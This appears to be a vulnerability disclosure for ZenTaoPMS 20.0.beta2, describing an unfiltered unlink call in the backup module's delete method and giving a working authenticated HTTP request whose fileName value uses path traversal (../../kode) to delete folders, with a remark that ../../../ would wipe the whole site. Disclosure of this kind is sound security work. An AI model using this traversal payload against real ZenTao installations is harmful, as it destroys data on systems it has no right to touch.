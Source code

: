 # Any file deletion vulnerability exists in ZenTaoPMS-20.0.beta2

There is a vulnerability in the delete method in ZenTaoPMS-20.0.beta2-php7.2_7.4\zentaopms\module\backup\control.php.

![image](https://github.com/sec-Kode/cve2/assets/46676387/27165e11-c723-4d00-8b87-7209c92af813)
There is an unlink dangerous function here, and there is no filtering, so any file deletion operation can be performed.

And it will be deleted here in the form of the entire folder.

For the convenience of demonstration, create a folder named kode in the F:\phpstudy_pro\WWW\127.0.0.1\ZenTaoPMS-20.0.beta2-php7.2_7.4\zentaopms directory

![image](https://github.com/sec-Kode/cve2/assets/46676387/b1f83c55-94f2-4f1b-95d3-186d0e260144)

This vulnerability requires logging into the website backend to operate.

After logging in to the backend, we can use the following payload to delete the entire kode folder.

```
GET /www/index.php?m=backup&f=delete&fileName=../../kode HTTP/1.1
Host: 127.0.0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.2/www/index.php?m=index&f=app&t=html
X-ZIN-Options: {"selector":["body>*","title>*","#configJS"],"type":"list"}
X-ZIN-App: admin
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: lang=zh-cn; device=desktop; theme=default; hideMenu=false; zentaosid=f4b230b8e5e69f9f22d9eb70df23e7db4edeeab5; vision=rnd; tab=admin; zentaosid=7bit6mr0sjtg18t0037sc62c5g; lang=zh-cn; device=desktop; theme=default; windowWidth=1094; windowHeight=908; vision=rnd; XDEBUG_SESSION=PHPSTORM
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

```

The kode folder was deleted successfully

![image](https://github.com/sec-Kode/cve2/assets/46676387/e5bec4b3-9e98-46e3-8013-03d06a3956af)

![image](https://github.com/sec-Kode/cve2/assets/46676387/361df370-29fc-49cd-bc72-7b5537e88d90)

If the deletion path of the payload is ../../../, all files and directories under the entire zentaopms folder will be deleted, causing all directories of the website to be deleted.

